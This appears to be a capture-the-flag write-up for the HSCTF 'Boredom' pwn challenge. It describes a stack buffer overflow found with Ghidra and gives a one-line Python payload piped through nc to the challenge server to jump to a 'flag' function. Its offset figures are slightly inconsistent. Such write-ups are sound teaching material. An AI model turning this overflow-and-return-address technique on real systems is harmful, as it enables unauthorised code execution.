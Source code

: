 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

* check your offset, the offset is slightly different on the remote server
* the addresses are still the same

## Solution

Disassemble the bin file using ghidra and check the buffer dimension: it is 208 locally (216 to cause a buffer overflow) and 200 on server (280 to cause a buffer overflow). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a bufferoverflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.
